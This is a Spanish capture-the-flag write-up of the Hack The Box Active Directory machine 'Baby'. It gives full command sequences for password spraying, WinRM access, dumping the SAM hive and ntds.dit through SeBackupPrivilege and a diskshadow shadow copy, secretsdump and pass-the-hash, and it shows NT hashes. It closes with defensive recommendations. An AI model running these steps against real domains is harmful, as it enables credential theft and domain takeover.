# Baby — Hack The Box (práctica CPTS)

**Plataforma:** Hack The Box
**Dificultad:** 🟢 Fácil
**SO:** Windows (Active Directory)
**Certificación:** Práctica adicional para el CPTS (Certified Penetration Testing Specialist)
**Fecha de resolución:** 2026
**Técnicas:** Nmap · Enumeración LDAP anónima · Filtración de contraseña inicial en la descripción de un grupo de AD · Password spraying (`crackmapexec`) · Reset de contraseña caducada (`smbpasswd`) · Evil-WinRM · Abuso de **`SeBackupPrivilege`** (grupo Backup Operators) · **Volume Shadow Copy** (`diskshadow`) → extracción de `ntds.dit` · `secretsdump` → pass-the-hash → SYSTEM
**Idioma:** Español — [🇬🇧 English version](./Baby_Writeup_EN.md)

---

## Índice
1. [Reconocimiento](#1-reconocimiento)
2. [Enumeración LDAP — contraseña inicial filtrada](#2-enumeración-ldap--contraseña-inicial-filtrada)
3. [Acceso inicial — password spraying y reset de contraseña](#3-acceso-inicial--password-spraying-y-reset-de-contraseña)
4. [Obtención de shell](#4-obtención-de-shell)
   - [Escalada de privilegios — SeBackupPrivilege y Shadow Copy](#escalada-de-privilegios--sebackupprivilege-y-shadow-copy)
5. [Post-explotación y flags](#5-post-explotación-y-flags)
6. [Lección aprendida](#6-lección-aprendida)
7. [Glosario de herramientas y comandos](#7-glosario-de-herramientas-y-comandos)
8. [Flujo de ataque](#8-flujo-de-ataque)

---

## 1. Reconocimiento

```bash
ping -c 1 10.129.234.71
```

> 🛠️ **`ping`** — comprueba disponibilidad del host por ICMP. TTL **127** → sistema **Windows**.



Escaneo completo de puertos TCP:

```bash
nmap -sS -Pn -vvv --min-rate 5000 --open -n -p- -oN AllPorts 10.129.234.71
```

> 🛠️ **`nmap -sS -Pn -vvv --min-rate 5000 --open -n -p-`** — escaneo SYN de los 65535 puertos: `-sS` (sigiloso), `-Pn` (ignora el estado del ping), `--min-rate 5000` (acelera el envío), `--open` (solo puertos abiertos), `-n` (sin resolución DNS).



```bash
enum-nmap AllPorts
```

> 🛠️ **`enum-nmap`** — script propio que resume la salida de Nmap: IP, TTL, SO estimado y lista de puertos lista para el siguiente `-p`.


> 💡 21 puertos abiertos, entre ellos **53 (DNS), 88 (Kerberos), 389/636/3268/3269 (LDAP/LDAPS/Global Catalog), 445 (SMB), 5985 (WinRM) y 9389 (ADWS)** — el conjunto de servicios característico de un **controlador de dominio de Active Directory**.

Escaneo de versión y scripts por defecto:

```bash
nmap -sS -Pn -sCV -T5 -n -p53,88,135,139,389,445,464,593,636,3268,3269,3389,5985,9389,49664,49668,57337,57338,57346,57700,57712 -oN Ports 10.129.234.71
```

> 🛠️ **`-sCV`** combina `-sC` (scripts por defecto de Nmap) con `-sV` (detección de versión de servicio).



```
389/tcp open  ldap  Microsoft Windows Active Directory LDAP (Domain: baby.vl, Site: Default-First-Site-Name)
ssl-cert: Subject: commonName=BabyDC.baby.vl
rdp-ntlm-info:
  Target_Name: BABY
  NetBIOS_Domain_Name: BABY
  NetBIOS_Computer_Name: BABYDC
  DNS_Domain_Name: baby.vl
  DNS_Computer_Name: BabyDC.baby.vl
```

> 💡 Dominio **`baby.vl`**, controlador de dominio **`BabyDC`**. Los scripts `ssl-cert` y `rdp-ntlm-info` de Nmap revelan el nombre completo del dominio y del host sin necesidad de ninguna herramienta adicional.

Añadimos el dominio al `/etc/hosts`:


## 2. Enumeración LDAP — contraseña inicial filtrada

### ¿Por qué probar un bind LDAP anónimo?

El protocolo LDAP admite, por diseño, un modo de autenticación **anónimo** (*anonymous bind*): una conexión sin usuario ni contraseña, pensada originalmente para que ciertos directorios públicos fueran consultables sin credenciales. Muchos controladores de dominio, por configuración heredada o error de hardening, permiten este tipo de *bind* con permisos de lectura amplios — es, con diferencia, la vía de enumeración más silenciosa posible en un entorno AD: no requiere ninguna credencial y no genera eventos de autenticación fallida.

```bash
ldapsearch -x -H ldap://BabyDC.baby.vl -b "DC=baby,DC=vl"
```

> 🛠️ **`ldapsearch -x`** — cliente de línea de comandos para LDAP; `-x` fuerza autenticación simple (aquí, sin usuario ni contraseña, es decir, anónima). `-b "DC=..."` fija el *base DN* de la búsqueda al dominio completo.


El servidor responde sin pedir credenciales. Filtramos los `dn` para entender la estructura del directorio:

```bash
ldapsearch -x -H ldap://BabyDC.baby.vl -b "DC=baby,DC=vl" | grep "dn"
```

> 🛠️ **`grep "dn"`** — filtra las líneas `dn:` (Distinguished Name) de la salida completa, mostrando de un vistazo todos los objetos del directorio sin el ruido de sus demás atributos.


Identificamos dos unidades organizativas con cuentas de usuario: **`OU=dev`** y **`OU=it`**. Extraemos sus nombres de inicio de sesión:

```bash
ldapsearch -x -H ldap://BabyDC.baby.vl -b "DC=baby,DC=vl" | grep "userPrincipalName"
```

> 🛠️ **`userPrincipalName`** — atributo LDAP que almacena el nombre de inicio de sesión de un usuario en formato `usuario@dominio`, el equivalente AD a una dirección de correo de login.


```
Jacqueline.Barnett@baby.vl
Ashley.Webb@baby.vl
Hugh.George@baby.vl
Leonard.Dyer@baby.vl
Connor.Wilkinson@baby.vl
Joseph.Hughes@baby.vl
Kerry.Wilson@baby.vl
Teresa.Bell@baby.vl
```

### Minando atributos de texto libre en busca de secretos

No nos limitamos a los usuarios: revisamos el volcado completo buscando cualquier mención a "password" en **cualquier** atributo de **cualquier** objeto:

```bash
ldapsearch -x -H ldap://BabyDC.baby.vl -b "DC=baby,DC=vl" | grep "password"
```

> 💡 El atributo `description` de objetos de AD (usuarios, grupos, OUs) es texto libre, pensado para anotaciones administrativas — y es sorprendentemente común encontrar ahí contraseñas, políticas internas o notas que nunca deberían haberse escrito en un campo legible por cualquiera con acceso de lectura al directorio.



```
description: Set initial password to BabyStart123!
```

> 💡 La descripción de un grupo de AD, legible de forma anónima, revela la **política de contraseña inicial** que el equipo de IT asigna a las cuentas nuevas — un hallazgo que convierte cualquier cuenta "recién creada y nunca usada" en un objetivo de password spraying con altísima probabilidad de éxito.

## 3. Acceso inicial — password spraying y reset de contraseña

Guardamos la lista de usuarios en un fichero y probamos la contraseña filtrada contra todos ellos:



```bash
crackmapexec smb 10.129.234.71 -u usernames -p 'BabyStart123!'
```

> 🛠️ **`crackmapexec smb -u <lista> -p <contraseña>`** — prueba una misma contraseña contra una lista de usuarios (*password spraying*) sin bloquear cuentas por intentos individuales excesivos, ya que cada cuenta solo recibe **un** intento.



```
[-] baby.vl\Jacqueline.Barnett:BabyStart123! STATUS_LOGON_FAILURE
...
[-] baby.vl\Caroline.Robinson:BabyStart123! STATUS_PASSWORD_MUST_CHANGE
```

### ¿Por qué `STATUS_PASSWORD_MUST_CHANGE` es la señal clave?

Un único usuario, **`Caroline.Robinson`** — que ni siquiera apareció en el listado inicial de `userPrincipalName` extraído por LDAP — responde con un código distinto al resto. `STATUS_LOGON_FAILURE` significa credenciales incorrectas; **`STATUS_PASSWORD_MUST_CHANGE`** significa que la **contraseña es correcta**, pero Windows la marca como caducada o pendiente de cambio obligatorio en el primer inicio de sesión (típico de una cuenta recién creada que nunca llegó a activarse). Es una distinción fácil de pasar por alto si solo se mira "éxito/fallo" en lugar del código de error exacto.

Forzamos el cambio de contraseña aprovechando esa misma autenticación:

```bash
smbpasswd -U BABY/caroline.robinson -r baby.vl
```

> 🛠️ **`smbpasswd -U <dominio>/<usuario> -r <servidor>`** — cambia la contraseña de una cuenta de dominio vía SMB, pidiendo primero la contraseña antigua (la ya conocida) y luego la nueva. Es el mecanismo estándar para completar un cambio de contraseña obligatorio sin acceso gráfico.



Validamos la nueva contraseña:

```bash
crackmapexec smb 10.129.234.71 -u usernames -p 'Temporal01.'
```



```
[+] baby.vl\Caroline.Robinson:Temporal01.
```

## 4. Obtención de shell

```bash
evil-winrm -i baby.vl -u caroline.robinson -p 'Temporal01.'
```

> 🛠️ **`evil-winrm`** — cliente para sesiones de administración remota de Windows (WinRM), equivalente en espíritu a SSH pero para PowerShell remoto.



```
dir
```


`user.txt` (34 bytes) confirmado en el escritorio — primera flag.

## Escalada de privilegios — SeBackupPrivilege y Shadow Copy

```
whoami /all
```

> 🛠️ **`whoami /all`** — combina usuario, grupos y privilegios en una sola salida; el primer chequeo obligatorio al obtener cualquier shell nueva.



```
BUILTIN\Backup Operators
SeBackupPrivilege   Back up files and directories   Enabled
SeRestorePrivilege  Restore files and directories    Enabled
```

### ¿Qué es `SeBackupPrivilege` y por qué es tan potente?


**`SeBackupPrivilege`** es un privilegio de Windows diseñado para que software de copia de seguridad legítimo pueda leer **cualquier** archivo o directorio del sistema — incluidos los protegidos por ACL de NTFS que normalmente bloquearían el acceso — sin necesidad de ser Administrador. Su contraparte, **`SeRestorePrivilege`**, permite lo mismo para escritura. Al ser miembro del grupo integrado **`Backup Operators`**, cualquier cuenta hereda ambos privilegios automáticamente, convirtiéndose de facto en un vector de escalada: puede leer ficheros que de otro modo requerirían privilegios de Administrador, incluidos los hives del registro (`SAM`, `SYSTEM`, `SECURITY`) y, con el enfoque adecuado, la propia base de datos de Active Directory.

Primero probamos la vía más directa: volcar los hives SAM y SYSTEM **locales** (posible gracias a `SeBackupPrivilege`, que permite `reg save` sobre hives normalmente restringidos):

```
reg save hklm\sam .\sam
reg save hklm\system .\system
```

> 🛠️ **`reg save hklm\<hive> <fichero>`** — exporta una rama del registro a un fichero. Sin `SeBackupPrivilege`, esto fallaría por falta de permisos sobre `SAM`/`SECURITY`; con él, se ejecuta sin restricciones.


```
download sam
download system
```


```bash
secretsdump.py -sam sam -system system LOCAL
```

> 🛠️ **`secretsdump.py -sam -system LOCAL`** — descifra el hive SAM usando la clave de arranque (`bootKey`) derivada del hive SYSTEM, revelando los hashes NT de las cuentas **locales** de la máquina.


```
Administrator:500:aad3b435b51404eeaad3b435b51404ee:8d992faed38128ae85e95fa35868bb43:::
```

> 💡 Este es el hash del **Administrator local** del controlador de dominio — una cuenta distinta de `Administrator` de dominio, con un propósito diferente (acceso de recuperación local). No es la credencial que compromete el dominio completo; necesitamos ir más allá.

### De SAM local a `ntds.dit`: abusando del servicio de Shadow Copy

**`ntds.dit`** es la base de datos real de Active Directory: contiene todos los objetos del dominio, incluidos los hashes de contraseña de **todas** las cuentas. El problema es que, mientras el controlador de dominio está en funcionamiento, ese fichero está permanentemente **abierto y bloqueado** por el proceso `lsass.exe` — ni siquiera `SeBackupPrivilege` permite copiarlo directamente en caliente.

La solución es el **Volume Shadow Copy Service (VSS)**: un servicio nativo de Windows que crea una instantánea congelada y consistente de un volumen completo, incluidos los ficheros que estén en uso en ese momento. Una vez creada la instantánea, el `ntds.dit` "congelado" dentro de ella ya **no** está bloqueado por ningún proceso — es solo una copia de solo lectura del estado del disco en ese instante.

Creamos un script para `diskshadow`, la utilidad de línea de comandos que automatiza la creación y exposición de copias de sombra:

```bash
nano raj.dsh
unix2dos raj.dsh
```

> 🛠️ **`unix2dos`** — convierte los finales de línea de Unix (`LF`) a Windows (`CRLF`). Es un paso obligatorio aquí: `diskshadow` rechaza scripts con el formato de línea incorrecto.


```
set context persistent nowriters
add volume c: alias raj
create
expose %raj% z:
```

> 🛠️ **Desglose del script `.dsh`:**
> - `set context persistent nowriters` — la copia de sombra sobrevive tras finalizar `diskshadow` y se crea sin coordinar con *writers* VSS (más rápido, adecuado para solo-lectura).
> - `add volume c: alias raj` — selecciona el volumen `C:` y le da un alias interno (`raj`) para referenciarlo.
> - `create` — genera físicamente la copia de sombra.
> - `expose %raj% z:` — monta esa copia de sombra como una nueva unidad `Z:`, navegable como cualquier otra.


Subimos el script a la víctima:

```
upload raj.dsh
```


```
mkdir C:\Temp
mv raj.dsh C:\Temp
```



Ejecutamos `diskshadow`:

```
diskshadow /s raj.dsh
```

> 🛠️ **`diskshadow /s <script>`** — ejecuta un script `.dsh` en modo no interactivo, automatizando toda la secuencia de creación y exposición de la copia de sombra.



```
The shadow copy was successfully exposed as z:\.
```

Con `Z:` montada, copiamos `ntds.dit` desde la instantánea congelada — ya no está bloqueado:

```
robocopy /b z:\windows\ntds . ntds.dit
```

> 🛠️ **`robocopy /b`** — copia en modo *backup*, que (como `reg save`) se apoya en `SeBackupPrivilege`/`SeRestorePrivilege` para leer el fichero saltándose las comprobaciones de ACL habituales. Aquí el fichero ya no está bloqueado (viene de la copia de sombra), pero el modo backup sigue siendo necesario por los permisos NTFS del propio `ntds.dit`.


```
download ntds.dit
```



Con `ntds.dit` y el hive `SYSTEM` (necesario para descifrarlo) ya descargados, volcamos **todas** las credenciales del dominio:

```bash
secretsdump.py -ntds ntds.dit -system system LOCAL
```

> 🛠️ **`secretsdump.py -ntds -system LOCAL`** — parsea la base de datos ESE de `ntds.dit`, localiza la `pekList` (Password Encryption Key), la descifra usando la `bootKey` del hive SYSTEM, y extrae el hash NT de cada cuenta del dominio.



```
Administrator:500:aad3b435b51404eeaad3b435b51404ee:ee4457ae59f1e3fbd764e33d9cef123d:::
krbtgt:502:...
baby.vl\Jacqueline.Barnett:1104:...
...
```

> 🔒 El hash NT real de Administrator de dominio no se publica en este writeup a propósito, para no regalar la respuesta a quien esté practicando esta misma máquina — el comando exacto para obtenerlo queda documentado arriba.

Pass-the-hash con el hash de **Administrator** de dominio:

```bash
evil-winrm -i baby.vl -u Administrator -H '<hash NT de Administrator>'
```



```
dir
```

`root.txt` confirmado en el escritorio de Administrator.

## 5. Post-explotación y flags

Shell de Administrator confirmada en el controlador de dominio — compromiso total del dominio acreditado.

> 🔒 El contenido exacto de `user.txt` y `root.txt` no se publica en este writeup a propósito, para no regalar la respuesta a quien esté practicando esta misma máquina — el camino completo hasta cada uno queda documentado en las secciones §4 y §5.

## 6. Lección aprendida

| Vulnerabilidad | Dónde | Impacto |
|----------------|-------|---------|
| Enumeración LDAP anónima habilitada en el DC | Puerto 389 | Filtración de la estructura del directorio y nombres de usuario sin credenciales |
| Política de contraseña inicial expuesta en la descripción de un grupo de AD | Atributo `description` | Permite probar esa contraseña contra todas las cuentas del dominio |
| Cuenta de dominio nunca activada, con la contraseña inicial sin cambiar | `Caroline.Robinson` | Acceso inicial válido mediante password spraying |
| Cuenta de bajo privilegio miembro de `Backup Operators` | `Caroline.Robinson` | `SeBackupPrivilege`/`SeRestorePrivilege` permiten leer cualquier fichero del sistema saltándose las ACL |
| Posibilidad de generar una Shadow Copy y extraer `ntds.dit` de un archivo en uso | Servicio VSS (`diskshadow`) | Volcado completo de credenciales de dominio sin depender de vulnerabilidades adicionales |

## Recomendaciones defensivas

- Deshabilitar la enumeración LDAP anónima en el controlador de dominio.
- Nunca incluir contraseñas, aunque sean "iniciales" o temporales, en atributos legibles como `description` de objetos de AD.
- Forzar la activación y cambio de contraseña de toda cuenta nueva en un plazo razonable; auditar periódicamente cuentas con `pwdLastSet` sin modificar.
- Restringir estrictamente la pertenencia al grupo `Backup Operators` — equivale, en la práctica, a poder leer (y restaurar) cualquier archivo del sistema, incluidos los hives de registro y `ntds.dit`.
- Monitorizar el uso de `diskshadow`, `vssadmin` y accesos a copias de sombra del volumen del sistema, especialmente combinados con lectura de `ntds.dit`.
- Rotar las credenciales de dominio si se sospecha que `ntds.dit` pudo haber sido extraído.

## 7. Glosario de herramientas y comandos

| Herramienta / comando | Para qué sirve |
|------------------------|-----------------|
| `ping` / `nmap` | Descubrimiento de host y enumeración de puertos/servicios |
| `enum-nmap` | Script propio que resume la salida de Nmap |
| `ldapsearch -x` | Cliente LDAP de línea de comandos; `-x` permite un *bind* simple, incluido el anónimo si el servidor lo permite |
| **Enumeración LDAP anónima** | Técnica de reconocimiento de AD sin credenciales ni eventos de autenticación fallida |
| **Minería de atributos de texto libre** (`description`) | Buscar secretos olvidados en campos de notas administrativas de objetos AD |
| `crackmapexec smb -u -p` (password spraying) | Prueba una misma contraseña contra muchas cuentas, un intento por cuenta, evitando bloqueos |
| `STATUS_PASSWORD_MUST_CHANGE` | Código de error SMB que indica contraseña correcta pero cambio obligatorio pendiente — distinto de un fallo de autenticación |
| `smbpasswd -U <dominio>/<usuario> -r <servidor>` | Cambia una contraseña de dominio caducada vía SMB |
| `evil-winrm` | Cliente de sesiones remotas de administración de Windows (WinRM) |
| `whoami /all` | Muestra usuario, grupos y privilegios del token actual |
| **`SeBackupPrivilege`/`SeRestorePrivilege`** | Privilegios de Windows que permiten leer/escribir cualquier fichero saltándose las ACL de NTFS, propios de cuentas de backup |
| `reg save hklm\<hive> <fichero>` | Exporta una rama del registro a un fichero; con `SeBackupPrivilege`, incluso hives restringidos como SAM/SECURITY |
| **Volume Shadow Copy Service (VSS)** | Servicio de Windows que crea instantáneas congeladas de un volumen, incluidos ficheros en uso en ese momento |
| `diskshadow /s <script.dsh>` | Automatiza la creación y exposición de una copia de sombra mediante un script |
| `unix2dos` | Convierte finales de línea Unix a Windows (CRLF), requisito de formato para scripts `.dsh` |
| `robocopy /b` | Copia en modo backup, apoyándose en `SeBackupPrivilege` para saltarse restricciones de ACL al leer el origen |
| **`ntds.dit`** | Base de datos de Active Directory; contiene los hashes de todas las cuentas del dominio |
| `secretsdump.py -ntds -system LOCAL` | Descifra `ntds.dit` usando la `bootKey` del hive SYSTEM y extrae todos los hashes del dominio |
| **Pass-the-hash (PtH)** | Autenticarse con el hash NT directamente, sin necesidad de la contraseña en claro |

## 8. Flujo de ataque



> 💡 **El porqué de cada paso:** el bind LDAP anónimo es el primer chequeo obligatorio en cualquier DC — y conviene revisar no solo los objetos de usuario, sino también descripciones de grupos y otros atributos de texto libre, donde a menudo quedan políticas o contraseñas olvidadas. El código `STATUS_PASSWORD_MUST_CHANGE` (distinto de `STATUS_LOGON_FAILURE`) es la señal clave de que una contraseña es correcta pero la cuenta exige un cambio antes de autenticar — fácil de pasar por alto si solo se mira "éxito/fallo". Una vez dentro, `SeBackupPrivilege` merece siempre revisión: si el volcado local no basta (el hash de Administrator local puede estar deshabilitado o no ser el objetivo real), el siguiente paso lógico es generar una Shadow Copy para acceder a `ntds.dit`, el único camino para obtener **todas** las credenciales del dominio sin depender de vulnerabilidades adicionales.

---

*Escrito por [Arabot](https://github.com/Caan31) · Hack The Box · práctica CPTS · 2026*
